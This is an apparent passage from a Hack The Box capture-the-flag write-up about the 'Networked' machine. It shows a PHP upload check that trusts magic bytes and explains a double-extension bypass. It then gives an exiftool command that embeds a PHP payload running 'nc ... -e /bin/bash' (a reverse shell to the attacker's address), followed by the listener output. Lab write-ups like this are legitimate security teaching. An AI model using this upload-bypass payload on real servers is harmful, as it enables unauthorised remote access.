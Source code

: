 ```php
  $mime_type = file_mime_type($file);
  if (strpos($mime_type, 'image/') === 0) {
      return true;
  } else {
      return false;
  }
}

function displayform() {
?>
<form action="<?php echo $_SERVER['PHP_SELF']; ?>" method="post" enctype="multipart/form-data">
 <input type="file" name="myFile">
 <br>
<input type="submit" name="submit" value="go!">
</form>
<?php
  exit();
}
?>
```

The biggest problem is that the `file_mime_type` function, determines the type
of file based on the magic bytes.

So if we embed some PHP code in an image, and name it `image.php.png` the server
will name it , in my case, `10.10.14.8.php.png`, it will replace the dots in the
file name with underscores and the final name will be `10_10_14_8.php.png` and
this allows PHP to run the code inside it.

This is an example of the gallery after a file gets uploaded:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/networked/uploaded.png)

## Getting a shell


Let's embed a PHP command to execute a reverse shell, I will use exiftool for
convenience:
```
$ exiftool -Comment='<?php system("nc 10.10.14.4 1337 -e /bin/bash"); ?>' hackthebox.png
    1 image files updated
```
Let's rename the file and upload it. After refreshing the gallery page, the PHP
code gets executed and we have shell:
```
$ nc -lnvp 1337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.10.146.
Ncat: Connection from 10.10.10.146:57998.
whoami
apache
```
